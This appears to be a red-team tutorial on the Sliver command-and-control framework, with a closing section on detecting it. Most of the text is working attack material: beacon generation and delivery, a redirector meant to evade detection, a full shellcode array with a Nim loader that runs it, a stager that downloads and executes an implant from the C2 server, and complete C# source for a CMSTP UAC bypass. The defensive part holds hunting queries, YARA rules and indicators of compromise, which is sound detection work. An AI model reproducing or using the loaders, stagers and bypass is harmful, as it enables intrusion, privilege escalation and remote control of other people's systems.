

Sliver
Background
Sliver is an open-source adversary emulation/red team framework and is an alternative to Cobalt Strike. The tool can be utilized by organizations of any scale for conducting post-exploitation security testing. Sliver's implants have built-in support for communication channels such as mutual TLS (mTLS), WireGuard, HTTP(S), and DNS. They are compiled on the fly using unique encryption keys for each binary.
Server and client components of Sliver are compatible with MacOS, Windows, and Linux operating systems. They also function with other Golang compiler targets, although testing is in this case not comprehensive. The tool is undetected in the FireEye EDR.
Features
The tool includes a wide range of features. A notable feature is the 'multipayer' mode, which allows multiple operators to connect to the same server beacon. This is especially useful in large-scale red-teaming environments where coordination is necessary. Operators and server connections are authenticated using mTLS. Certificates are managed automaticaly by Sliver. It is fully scriptable with Java/Typescript. See the Sliver Github for a more detailed breakdown.
Installation
The installation process is straightforward. The most reliable method is to download the latest server and client binaries from the Sliver release page. Begin by changing user rights with chmod +x sliver* and run the server file by entering the following:
./sliver-server
Server and client setup
-
Set up a server in the /tmp directory with the command
python3 -m http.server 8000. -
Create a new operator profile.
./sliver-server_linux operator --name [OPERATOR] --lhost [IP ADDRESS] --save [OPERATOR].cfg
This feature is useful because it allows multiple operators to connect to the same server. The .cfg file is placed in /root by default.
- Import the profile into relevant folder using the
./sliver-client_linux import [OPERATOR].cfgcommand.
- Additional operators are created on the server. Profiles can be exported to the player with SCP. The command
scp [OPERATOR].cfg kali@[ADDRESS]:is used.

-
Operators import the profile using the command
import [OPERATOR].cfg. -
Enable Multiplayer mode on the server with the command
multiplayer. Operators can be viewed by entering theoperatorcommand.
- Operators enter enter the game when they run the client server.
Beacon setup
- Generate beacons on the Sliver server with the following command:
generate beacon --mtls [IP ADDRESS] --save /tmp/[BEACON NAME] --skip-symbols -f exe --os windows
- Implant the beacon on the target machine. The most convenent implantation method is to set up a browser-accessible server. As before, this can be done in the /tmp directory with the command
python3 -m http.server [PORT NUMBER]. Port 8080 was used in this example. For Windows-based targets it is recommended to use the .exe extension when naming the beacon.
- Save and run the beacon file from the local drive.
- Initialise an mTLS session on the server. Addtional arguments were used in the example below, but the session will also start simply by using the
mtlscommand. The implant beacon will appear in the session once the beacon file on the target machine has been executed locally (i.e., double-clicked).
- Implants are viewable with the
implantscommand.
- The command
interactivecan be used to select the current C2 channel.
Alternativey, the command use can be deployed to select the session from a list.
- Once the session is selected it is possible to navigate the target machine's file system.
The session will persist until the beacon is removed. It is accessible via both the server and the client.
- The
helpkeyword displays the possible range of commands.

Usage
1. Modules
Sliver modules offer a wide range of attack vectors and can be accessed with the armory command.
Armory modules can be installed with the armory install [MODULE NAME] command.
Usage instructions can be accessed with the [MODULE NAME] -h command.
2 Advanced Usage
2.1 Traffic redirection
Command and control (C2) infrastructure is used to communicate with compromised systems and maintain control over them. C2 traffic redirection enables attackers to control C2 traffic within the target environment.
Traffic redirectors help attackers evade detection and bypass security controls designed to detect or block malicious C2 traffic. They enable attackers to obfuscate their activities and make it harder for security systems to identify and block their actions.
Setting up a traffic redirector in Silver requires the installation of a dedicated server. This can be done with Apache or NGINX, but the process is simplest in Caddy.
Caddy
Installation
On Debian-based systems Caddy can be installed with the following commands:
sudo apt install -y debian-keyring debian-archive-keyring apt-transport-https
curl -1sLf 'https://dl.cloudsmith.io/public/caddy/stable/gpg.key' | sudo gpg --dearmor -o /usr/share/keyrings/caddy-stable-archive-keyring.gpg
curl -1sLf 'https://dl.cloudsmith.io/public/caddy/stable/debian.deb.txt' | sudo tee /etc/apt/sources.list.d/caddy-stable.list
sudo apt update
sudo apt install caddy
Server setup
Caddy configuration is handled by the Caddyfile located in /etc/caddy. The file requires only two modifications.
The topmost domain is the site targeted for redirection. The domain following the redir command is the destination URL and port to where requests will be redirected. The {uri} placeholder preserves the original path and query parameters in the redirect. mTLS requests in Sliver are sent over port 8888. The redirect port should be set to this number when using Sliver's mTLS listener. The port number for the target domain should be unique.
The caddy server is started by issuing the caddy start command.
The standard Sliver beacon setup procedure can be used once the Caddy server is up and running:
-
Generate beacon:
generate beacon --mtls 198.18.103.67 --save /tmp/caddy_beacon.exe --skip-symbols -f exe --os windows -
Start mTLS listener:
mtls -
Set up a server accessible on the target machine:
python3 -m http.server [UNIQUE PORT NUMBER] -
Navigate to the server page in the bowser on the target machine. In this example, the page is located at
198.18.107.63:8081.
-
Implant the beacon on the target machine by downloading and executing the file generated in step 1.
-
The beacon is displayed in the Sliver UI after the beacon file has been executed.

- Select beacon with the command
use. The session can be upgraded with theinteractivecommand.
- The command
beaconsdisplays the available beacons. Active beacons are displayed in green. The reverse proxy is set up correctly if the beacon calls back to the back to the server at given intervals. Inactive beacons are displayed in red.

In Nestat:
2.2 Staging
Sliver payloads can be large. As such, a stager can be used to execute an implant on a target. A stager is a small program or script that fetches the main payload from a remote location. While size doesn't matter as much in computing world anymore, hiding a full-sized implant can be difficult in certain circumstances.
Sliver can generate stagers or a custom one can be used.
The following is needed to set up a stager in Sliver:
- A staging server (Your sliver server)
- A stage 2 payload (the main sliver payload, typically in shellcode)
- The stager (Can be generated with the
generate stagercommand or custom-made)
Stager setup
Sliver staging uses the profiles feature. Profiles work as implant blueprints that define configuration information. Profiles can be created with profiles new command.
In this example, we will serve an mTLS implant.
sliver > profiles new --mtls 198.18.103.68 --format shellcode win-shellcode
[*] Saved new implant profile win-shellcode
sliver > profiles
Profile Name Implant Type Platform Command & Control Debug Format Obfuscation Limitations
=============== ============== =============== =============================== ======= =========== ============= =============
win-shellcode session windows/amd64 [1] mtls://198.18.103.68:8888 false SHELLCODE enabled
sliver >
With the profile setup, a listener for the mTLS implant is required.
sliver > mtls
[*] Starting mTLS listener ...
[*] Successfully started job #1
sliver > jobs
ID Name Protocol Port
==== ====== ========== ======
1 mtls tcp 8888
A staging listener can then be created with the stage-listener command and linked to a new profile:
sliver > stage-listener --url http://198.18.103.68:80 --profile win-shellcode
[*] No builds found for profile win-shellcode, generating a new one
[*] Job 1 (tcp) started
sliver > jobs
ID Name Protocol Port
== ==== ======== ====
1 http tcp 80
2 mtls tcp 8888
Now we're ready to create our stager. This can be done with the generate stager command. A local host and port should be specified to know where the stage listener is.
sliver > generate stager --lhost 198.18.103.68 --lport 80 --protocol http --save /tmp
[*] Sliver stager saved to: /tmp/NEAT_SNOWPLOW
If this results in an RPC error it is likely that Sliver's payload generator is out of date. The error can be resolved by updating Kali with the commands sudo apt update, followed by sudo apt upgrade.
With the stager generated, we can take a look at the results:
┌──(kali㉿kali-vle)-[~]
└─$ cat /tmp/NEAT_SNOWPLOW
unsigned char buf[] =
"\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50\x52"
"\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52"
...
"\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5"
Sliver as of now won't generate anything that can just be double-clicked. Something to run shellcode needs to be built. This can be accomplished in a near infinite amount of ways. One method is demonstrated below.
Creating the stager
Nim can be used to create the stager. Nim is a statically typed compiled programming language that resembles Python and compiles to C, C++ and even JavaScript.
This method uses Nim's Winim library that allows easy access Windows API definitions. It can be installed it with the command nimble install winim
import winim/lean
when defined(windows):
var shellcode: array[511, byte] = [
byte 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52
,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52
,0x20,0x51,0x56,0x48,0x0f,0xb7,0x4a,0x4a,0x48,0x8b,0x72,0x50,0x4d,0x31,0xc9
,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41
,0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48
,0x01,0xd0,0x66,0x81,0x78,0x18,0x0b,0x02,0x0f,0x85,0x72,0x00,0x00,0x00,0x8b
,0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,0xd0,0x8b,0x48
,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0x50,0xe3,0x56,0x48,0xff,0xc9,0x41
,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0x41,0xc1,0xc9
,0x0d,0xac,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45
,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,0x66,0x41,0x8b
,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,0x88,0x41,0x58
,0x48,0x01,0xd0,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48
,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9
,0x4b,0xff,0xff,0xff,0x5d,0x49,0xbe,0x77,0x73,0x32,0x5f,0x33,0x32,0x00,0x00
,0x41,0x56,0x49,0x89,0xe6,0x48,0x81,0xec,0xa0,0x01,0x00,0x00,0x49,0x89,0xe5
,0x49,0xbc,0x02,0x00,0x1e,0x61,0xc6,0x12,0x67,0x44,0x41,0x54,0x49,0x89,0xe4
,0x4c,0x89,0xf1,0x41,0xba,0x4c,0x77,0x26,0x07,0xff,0xd5,0x4c,0x89,0xea,0x68
,0x01,0x01,0x00,0x00,0x59,0x41,0xba,0x29,0x80,0x6b,0x00,0xff,0xd5,0x6a,0x0a
,0x41,0x5e,0x50,0x50,0x4d,0x31,0xc9,0x4d,0x31,0xc0,0x48,0xff,0xc0,0x48,0x89
,0xc2,0x48,0xff,0xc0,0x48,0x89,0xc1,0x41,0xba,0xea,0x0f,0xdf,0xe0,0xff,0xd5
,0x48,0x89,0xc7,0x6a,0x10,0x41,0x58,0x4c,0x89,0xe2,0x48,0x89,0xf9,0x41,0xba
,0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0x0a,0x49,0xff,0xce,0x75,0xe5
,0xe8,0x93,0x00,0x00,0x00,0x48,0x83,0xec,0x10,0x48,0x89,0xe2,0x4d,0x31,0xc9
,0x6a,0x04,0x41,0x58,0x48,0x89,0xf9,0x41,0xba,0x02,0xd9,0xc8,0x5f,0xff,0xd5
,0x83,0xf8,0x00,0x7e,0x55,0x48,0x83,0xc4,0x20,0x5e,0x89,0xf6,0x6a,0x40,0x41
,0x59,0x68,0x00,0x10,0x00,0x00,0x41,0x58,0x48,0x89,0xf2,0x48,0x31,0xc9,0x41
,0xba,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x48,0x89,0xc3,0x49,0x89,0xc7,0x4d,0x31
,0xc9,0x49,0x89,0xf0,0x48,0x89,0xda,0x48,0x89,0xf9,0x41,0xba,0x02,0xd9,0xc8
,0x5f,0xff,0xd5,0x83,0xf8,0x00,0x7d,0x28,0x58,0x41,0x57,0x59,0x68,0x00,0x40
,0x00,0x00,0x41,0x58,0x6a,0x00,0x5a,0x41,0xba,0x0b,0x2f,0x0f,0x30,0xff,0xd5
,0x57,0x59,0x41,0xba,0x75,0x6e,0x4d,0x61,0xff,0xd5,0x49,0xff,0xce,0xe9,0x3c
,0xff,0xff,0xff,0x48,0x01,0xc3,0x48,0x29,0xc6,0x48,0x85,0xf6,0x75,0xb4,0x41
,0xff,0xe7,0x58,0x6a,0x00,0x59,0xbb,0xe0,0x1d,0x2a,0x0a,0x41,0x89,0xda,0xff
,0xd5 ]
# Equilevant to Python's if __name__ == "__main__"
when isMainModule:
let currentproc = GetCurrentProcessId()
echo "Current process ID: ", currentproc
# Allocate memory for our shellcode
let memPtr = VirtualAlloc(
nil,
cast[SIZE_T](shellcode.len),
MEM_COMMIT,
PAGE_EXECUTE_READ_WRITE
)
# Copy our shellcode to the memory section
CopyMemory(memPtr, unsafeAddr shellcode, cast[SIZE_T](shellcode.len))
# Interesting way to execute our code, ref: https://github.com/HuskyHacks/RustyProcessInjectors/blob/master/EnumSystemGeoID/src/main.rs
EnumSystemGeoID(
16,
0,
cast[GEO_ENUMPROC](memPtr)
)
Compiling this program can be done on Linux if you have MinGW. The command to compile it to Windows is nim c --cpu:amd64 --os:windows --gcc.exe:x86_64-w64-mingw32-gcc --gcc.linkerexe:x86_64-w64-mingw32-gcc -d:release <your stager>.nim
Running this binary on the target Windows machine results in the binary fetching the main Sliver payload from our server and executing it, giving us a session:
Confirming the stager fetched the main payload can be done by viewing sliver.log file:
Custom stager creation
Since the effort was made to create a binary to run the generated stager, why not go all the way and create a custom stager? This is easier than it sounds. Sliver has documentation on how to make your own stager on their Github page.
All we have to do is to fetch the payload being served on the Sliver server through the stage-listener. Viewing the Sliver C2 documentation, we see the Sliver serves the main payloads on the HTTP protocol when requesting any file with the .woff file extension. This can be tested by using something like wget on the sliver server and requesting a file such as googlewebfront.woff
┌──(kali㉿kali-vle)-[~/nim/malzDev/Sliver-stage-0]
└─$ wget localhost:80/googlewebfront.woff
┌──(kali㉿kali-vle)-[~/nim/malzDev/Sliver-stage-0]
└─$ cat googlewebfront.woff| xxd | head -n 3
00000000: 3879 2f42 3f45 2847 2b4b 6250 6553 6841 8y/B?E(G+KbPeShA
00000010: 848d 2a78 ce77 153b eaff aca8 d27a 0e69 ..*x.w.;.....z.i
00000020: 2887 67c6 f0f0 f8d8 477d 8639 e58e 1d0c (.g.....G}.9....
The stage listener returned the shellcode in the HTTP response. Now a simple client can be created that fetches the shellcode over HTTP(S) and executes it in memory:
import std/httpclient
import winim/lean
import sequtils
when defined(windows):
proc main(): void =
let currentproc = GetCurrentProcessId()
echo "[*] Current process ID: ", currentproc
var client = newHttpClient()
var response = client.getContent("http://198.18.103.68/googlewebfront.woff")
# Convert the downloaded implant from string to array
var bytes = response.toSeq()
# Allocate memory
let memPtr = VirtualAlloc(
nil,
cast[SIZE_T](bytes.len),
MEM_COMMIT,
PAGE_EXECUTE_READ_WRITE
)
# Copy our shellcode to the memory section
echo "[*] Copying shellcode to memory..."
CopyMemory(memPtr, addr(bytes[0]), cast[SIZE_T](bytes.len))
echo "[*] Executing shellcode..."
# Interesting way to exec our code, ref: https://github.com/HuskyHacks/RustyProcessInjectors/blob/master/EnumSystemGeoID/src/main.rs
EnumSystemGeoID(
16,
0,
cast[GEO_ENUMPROC](memPtr)
)
when isMainModule:
main()
Compiling this program and running it on a Windows target results in us getting the shell:
2.3 Privilege escalation
It is possible to create system sessions in Sliver. On Windows machines it is necessary to bypass User Account Control (UAC) before a remote system session can be initialised. A relatively straightforward way to achieve this is with a reflective DLL injection.
On the target machine do the following:
- Create a script called
Sources.cswith the code below. Save it to a convenient location.
/*
UAC Bypass using CMSTP.exe microsoft binary
Based on previous work from Oddvar Moe
https://oddvar.moe/2017/08/15/research-on-cmstp-exe/
And this PowerShell script of Tyler Applebaum
https://gist.githubusercontent.com/tylerapplebaum/ae8cb38ed8314518d95b2e32a6f0d3f1/raw/3127ba7453a6f6d294cd422386cae1a5a2791d71/UACBypassCMSTP.ps1
Code author: Andre Marques (@_zc00l)
*/
using System;
using System.Text;
using System.IO;
using System.Diagnostics;
using System.ComponentModel;
using System.Windows;
using System.Runtime.InteropServices;
public class CMSTPBypass
{
// Our .INF file data!
public static string InfData = @"[version]
Signature=$chicago$
AdvancedINF=2.5
[DefaultInstall]
CustomDestination=CustInstDestSectionAllUsers
RunPreSetupCommands=RunPreSetupCommandsSection
[RunPreSetupCommandsSection]
; Commands Here will be run Before Setup Begins to install
REPLACE_COMMAND_LINE
taskkill /IM cmstp.exe /F
[CustInstDestSectionAllUsers]
49000,49001=AllUSer_LDIDSection, 7
[AllUSer_LDIDSection]
""HKLM"", ""SOFTWARE\Microsoft\Windows\CurrentVersion\App Paths\CMMGR32.EXE"", ""ProfileInstallPath"", ""%UnexpectedError%"", """"
[Strings]
ServiceName=""CorpVPN""
ShortSvcName=""CorpVPN""
";
[DllImport("user32.dll")] public static extern bool ShowWindow(IntPtr hWnd, int nCmdShow);
[DllImport("user32.dll", SetLastError = true)] public static extern bool SetForegroundWindow(IntPtr hWnd);
public static string BinaryPath = "c:\\windows\\system32\\cmstp.exe";
/* Generates a random named .inf file with command to be executed with UAC privileges */
public static string SetInfFile(string CommandToExecute)
{
string RandomFileName = Path.GetRandomFileName().Split(Convert.ToChar("."))[0];
string TemporaryDir = "C:\\windows\\temp";
StringBuilder OutputFile = new StringBuilder();
OutputFile.Append(TemporaryDir);
OutputFile.Append("\\");
OutputFile.Append(RandomFileName);
OutputFile.Append(".inf");
StringBuilder newInfData = new StringBuilder(InfData);
newInfData.Replace("REPLACE_COMMAND_LINE", CommandToExecute);
File.WriteAllText(OutputFile.ToString(), newInfData.ToString());
return OutputFile.ToString();
}
public static bool Execute(string CommandToExecute)
{
if(!File.Exists(BinaryPath))
{
Console.WriteLine("Could not find cmstp.exe binary!");
return false;
}
StringBuilder InfFile = new StringBuilder();
InfFile.Append(SetInfFile(CommandToExecute));
Console.WriteLine("Payload file written to " + InfFile.ToString());
ProcessStartInfo startInfo = new ProcessStartInfo(BinaryPath);
startInfo.Arguments = "/au " + InfFile.ToString();
startInfo.UseShellExecute = false;
Process.Start(startInfo);
IntPtr windowHandle = new IntPtr();
windowHandle = IntPtr.Zero;
do {
windowHandle = SetWindowActive("cmstp");
} while (windowHandle == IntPtr.Zero);
System.Windows.Forms.SendKeys.SendWait("{ENTER}");
return true;
}
public static IntPtr SetWindowActive(string ProcessName)
{
Process[] target = Process.GetProcessesByName(ProcessName);
if(target.Length == 0) return IntPtr.Zero;
target[0].Refresh();
IntPtr WindowHandle = new IntPtr();
WindowHandle = target[0].MainWindowHandle;
if(WindowHandle == IntPtr.Zero) return IntPtr.Zero;
SetForegroundWindow(WindowHandle);
ShowWindow(WindowHandle, 5);
return WindowHandle;
}
}
- Compile the code to .dll with the following command:
Add-Type -TypeDefinition ([IO.File]::ReadAllText("$pwd\Source.cs")) -ReferencedAssemblies "System.Windows.Forms" -OutputAssembly "CMSTP-UAC-Bypass.dll"
- Read the class in the CMSTP-UAC-Bypass.dll file to the variable:
[Reflection.Assembly]::Load([IO.File]::ReadAllBytes("$pwd\CMSTP-UAC-Bypass.dll"))
The class will then be accessible and can be used within the script.
- The
Executemethod is used to run the Sliver beacon and write a payload file into the temp directory.
[CMSTPBypass]::Execute("C:\to\beacon\location\caddy_beacon.exe")
This will initialise a high integrity cmd.exe popup on the target machine.
- The command
getsystemcan now be used in Sliver to start a new system session.

- The command
beacondisplays active beacons. The system account is selected with theuse [PID]command.
For blue teams
Threat hunting
A multilayered approach to security is required to safeguard operation security. This should include the use of endpoint detection and response (EDR) tools, network traffic analysis, and file system monitoring.
Lateral movement
Remote process execution
It is not always feasible to fingerprint the command-and-control (C2) communication protocol due to SSL encryption. Detecting lateral movement attempts is relatively easier, however. This can be illustrated with the psexec method of process execution. The attacker copies an executable (1), initiates the CreateServiceW request (2), and starts the service with the StartServiceW call (3). This method is widely used to gain unauthorized access to remote systems.
During such operations the remote service name, service description, and the executable's upload location can be customized. Sliver additionally generates a random file name for each psexec execution. In this case it is hygienicu6.exe.
The process does not appear in the main window of Task Manager. It is instead found under the Details tab.
It can also be viewed in Procmon.
Administrative shares may need to be enabled in order to execute processes remotely. In some cases this requires modification of the registry. This is achieved with the following command: reg add HKLM\SYSTEM\CurrentControlSet\Services\lanmanserver\parameters /f /v AutoShareWks /t REG_DWORD /d 1.
Default values for the ImagePath, DisplayName, and Description of the service installed on the remote system when using Sliver’s PsExec command can be queried with the following command:
| where ActionType == 'RegistryValueSet'
| where (RegistryValueName == 'ImagePath' and RegistryValueData matches regex @'^[a-zA-Z]:\\windows\\temp\\[a-zA-Z0-9]{10}\.exe') or
(RegistryValueName == 'DisplayName' and RegistryValueData == 'Sliver') or
(RegistryValueName == 'Description' and RegistryValueData == 'Sliver implant')
When building a robust detection signature of a lateral movement technique it is important to rely on a sequence of events that don’t change, rather than detecting specific strings or binary sequences in the network traffic (e.g., the default service name “Sliver”, or the default target directory “Windows\Temp”).
Network Traffic Analysis
It is also possible to identify certain patterns and signatures associated with Sliver. Sliver's unique encryption algorithm can be detected through network traffic monitoring.
Sliver use DNS, mTLs, WireGuard and HTTP(S) for callback protocols. All traffic is encrypted. Additional encoding can be used for further obfuscation.
Lateral movement from Sliver is reasonably easy to detect in Wireshark. DNS traffic is of particular relevance to blue teams. The Sliver implant encodes its messages into subdomain requests and responses. The data is packaged and encoded in such a way as to maximize the amount of data sent in any single request.
Encoded and encrypted payload data is limited to 254 characters per subdomain. There is a limited character count per request. C2 servers using DNS generate traffic significant orders of magnitude higher than protocols such as HTTP. This makes DNS logs a logical place to look for Sliver traces. This can be achieved by looking for subdomains with an excessive domain count or a large number of bytes per request.
Monitoring
Yara
Specific IP addresses, domain names, and ports used by C2 traffic can also be monitored. Daniel Roberson's Yara rule is an example of a useful tool in this context.
rule sliver_client : c2 implant
{
meta:
description = "Bishop Fox's Sliver C2 Implant"
author = "Daniel Roberson"
url = "https://github.com/BishopFox/sliver"
strings:
$s1 = "github.com/bishopfox/sliver/client"
condition:
all of them and filesize < 50MB
}
rule sliver_server : c2
{
meta:
description = "Bishop Fox's Sliver C2 Server"
author = "Daniel Roberson"
url = "https://github.com/BishopFox/sliver"
strings:
$s1 = "RunSliver"
condition:
all of them and filesize > 50MB
}
File System Monitoring
This method involves monitoring the file system for executable files associated with Sliver and its Indicators of Compromise (IoCs). Organizations can detect the presence of Sliver C2 by monitoring these files and tracking changes to critical system files like the Windows registry. https://bazaar.abuse.ch/browse/signature/Sliver/ provides an updated list of IoCs to aid in this process.
| First seen | SHA256 |
|---|---|
| 2023-01-05 19:38:07 | 3221de492e436a79655b4a82b72830a28de3aa417300fdf06e0b28202053ff3e |
| 2023-01-05 19:37:00 | 1846c1db07d4f9a3a86605e38c0be5da38074b91cfafa1a72bccc693b06346e4 |
| 2022-12-16 19:20:46 | f63993a7e4dc3e4242509482ca4d9ee1cbd4c00d219503ecf5d139d763a42f35 |
| 2022-07-18 08:00:49 | 78eb647f3d2aae5c52fcdc46ac1b27fb5a388ad39abbe614c0cfc902d223ccd6 |
| 2022-07-18 08:00:44 | f13deec28f6f6d3f4f555f5a2db48cd8a541be52c331ccfccba929e4dfd6bc7a |
| 2022-07-18 08:00:39 | fa647a34b88c5409a58d2f2568147fa03112eb8bfa34bccd801830446213d7c4 |
| 2022-07-18 08:00:32 | 5568131f894caf1217f4cbda3dd40c1f39e680ce7727ed4a767cd1986e7805f0 |
| 2022-07-18 08:00:26 | 5c973707940097122ec97fcb73e7b14f054c11c7e1dd958efe933ae3c6a78c4e |
Endpoint Detection and Response (EDR) Tools
EDR tools are specifically designed to identify and respond to threats on endpoints. They can detect Sliver activity by observing specific behaviors. This includes the execution of malicious files or the establishment of particular network connections. Network indicators provided by https://otx.alienvault.com/pulse/63e5d72a7086a248b9fac221 are potentially useful resources in this regard.
| Indicator | Type |
|---|---|
| 43[.]128.62.42 | IPv4 |
| 45[.]144.3.216 | IPv4 |
| hxxp://43.128.62.42/acl.exe | URL |
| hxxp://45.144.3.216/powercat.ps1 | URL |
| 5[.]199.173.103 | IPv4 |
| 61[.]155.8.2 | IPv4 |
| hxxp://43.128.62.42:8888 | URL |
| hxxp://45.144.3.216/2.ps1 | URL |
| hxxp://45.144.3.216:14356 | URL |
| hxxp://5.199.173.103/7za.exe | URL |
| hxxp://5.199.173.103/syse.bat | URL |
| hxxp://5.199.173.103/t.zip | URL |
Limitations
Sliver supports various other methods to move laterally using third-party components. Modules can be installed using the armory command. Sliver's alias and extension package manager can install components such as SharpWMI, allow remote process creation via WMI, ServiceMove-BOF, abuse the Windows Perception Simulation Service, and SCShell. These rely on ChangeServiceConfigA to run commands. All these methods require tailored detections because the techniques employed greatly differ.
Sources
AlienVault. (n.d.). AlienVault Open Threat Exchange. AlienVault. Retrieved June 13, 2023, from https://otx.alienvault.com/pulse/63e5d72a7086a248b9fac221
BishopFox. (n.d.). Sliver: Adversary Emulation Framework. GitHub. Retrieved May 17, 2023, from https://github.com/BishopFox/sliver
Breen, K. (2023). Detecting and decrypting Sliver C2 – a threat hunter’s guide. Immersive Labs. Retrieved June 13, 2023, from https://www.immersivelabs.com/blog/detecting-and-decrypting-sliver-c2-a-threat-hunters-guide/
Cybereason (n.d.). Sliver C2 Leveraged by Many Threat Actors. Cybereason. Retrieved June 12, 2023, from https://www.cybereason.com/blog/sliver-c2-leveraged-by-many-threat-actors
Seamless Intelligence. (n.d). Domain User to Domain Admin using Sliver. Seamless Intelligence. Retrieved May 17, 2023, from https://seamlessintelligence.com.au/sliver_2.html
Marques, Z. (2018, October 31). How to bypass UAC in newer Windows versions. zc00l blog. Retrieved May 17, 2023, from https://0x00-0x00.github.io/research/2018/10/31/How-to-bypass-UAC-in-newer-Windows-versions.html
Microsoft (2023). Looking for the ‘Sliver’ lining: Hunting for emerging command-and-control frameworks. Microsoft Security Blog. Retrieved June 13, 2023, from https://www.microsoft.com/en-us/security/blog/2022/08/24/looking-for-the-sliver-lining-hunting-for-emerging-command-and-control-frameworks/
Numen. (2023). Looking for the ‘Sliver’ lining - Getting System Shell with Sliver C2. Numen. Retrieved May 17, 2023, from https://www.numencyber.com/looking-for-the-sliver-lining/
Roberson, D. (2021, December 31). 100 Days of YARA – Day 36: Sliver Adversary Emulation Framework. DMFR SECURITY. Retrieved June 13, 2023, from https://dmfrsecurity.com/2022/01/24/100-days-of-yara-day-36-sliver-adversary-emulation-framework/